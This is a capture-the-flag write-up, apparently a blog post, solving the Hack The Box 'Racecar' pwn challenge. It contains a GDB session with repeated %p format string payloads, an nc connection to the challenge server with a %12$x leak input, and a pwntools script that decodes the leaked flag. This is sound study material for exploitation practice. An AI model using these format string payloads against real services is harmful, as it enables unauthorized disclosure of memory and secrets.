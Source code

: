 ```yaml
---
title: "HTB - Racecar [ PWN ]"
date: 2022-02-27T18:39:55-05:00
draft: false
---
```


Before starting the vulnerability search, we must first perform a basic analysis.

![image](https://user-images.githubusercontent.com/88755387/142025252-e61b2429-06f9-4464-94d7-e3cc8e7507e4.png)

If we look at the strings of the executable and filter by the word 'flag' we realize that there is a file called flag.txt which we assume is hidden.

![image](https://user-images.githubusercontent.com/88755387/142025391-0d68b387-fb14-46ab-948d-345e326b67a9.png)

We are going to debug the executable with the IDA tool.

![image](https://user-images.githubusercontent.com/88755387/142025485-6ad74b6f-29cc-400c-83aa-9f21c3f19d26.png)

Inside the `car_menu` function we have a file called `flag.txt` which will only be opened if the program flow enters `car_menu:loc_FC`. We know this because at that function a call is made to the `_printf` function after 'winning the race'.

Let's see what address the `_printf` function has:

![image](https://user-images.githubusercontent.com/88755387/142025864-4fa8907e-6335-42cc-a400-9be503ae2e00.png)

Before we continue we are going to create a file called 'flag.txt' as the one the program is looking for to read in the same directory where we are going to run the binary.

``` 
echo 'AAAA' > flag.txt
```

We run the binary in GDB and put a breakpoint in the vulnerable function `_printf`:

![image](https://user-images.githubusercontent.com/88755387/142026049-dfe69c2f-3ba4-48e9-8677-7f32f91c4da7.png)

Now we run the binary and enter 40x `%p` to display more information: 

```
gdb-peda$ run
Name: sth
Nickname: sth
> 2
> 1
> 2
> %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
```

![image](https://user-images.githubusercontent.com/88755387/142026262-33deb92a-7566-47e2-a058-e2fd67259d86.png)

At the 12th position, there is a beginning of `flag.txt` — `AAAA` string which was input before. It seems like the flag is stored on the stack.

Now we have to leak the flag from the remote service. We use [direct parameter access input format string](https://kevinalmansa.github.io/application%20security/Format-Strings/) `%12$x` to leak `flag.txt` from a remote system.

```
nc 104.248.169.123 31242
[ ... ]
> %12$x
```

![image](https://user-images.githubusercontent.com/88755387/142026727-f38db53b-bb06-40c0-8c19-4a4bdb7685b0.png)

If we convert them to ASCII we will find the beginning of the flag:

```
7b425448 -> {BTH
4854427b -> HTB{
```

The next step is reversing the flag. As we know that the flag is between two '{}' we will look for the value of the closing brace in hexadecimal.

```
{ -> 7b
} -> 7d
```

Now that we know its value we will reverse the bytes that are inside the braces.

```
%x%x%x%x%x%x%x%x%x%x%x---FLAG: %p%p%p%p%p%p%p%p%p%p%p ---
```

![image](https://user-images.githubusercontent.com/88755387/142026897-d3eb1187-6f89-4b88-9aeb-ad6c30199a56.png)

The last thing left is to create a script to view the flag in ASCII:

```python
from pwn import *

flag = '0x7b4254480x5f7968770x5f6431640x34735f310x745f33760x665f33680x5f67346c0x745f6e300x355f33680x6b6334740x7d213f'
decoded_flag = []

for element in flag.split('0x')[1:]:
 decoded_flag.append(p32(int('0x' + element,16)))
 
print (b''.join(decoded_flag))
```

![image](https://user-images.githubusercontent.com/88755387/142027222-c9604f62-37df-4a97-996a-0b5eeb5d6241.png)

I hope you enjoyed it! :D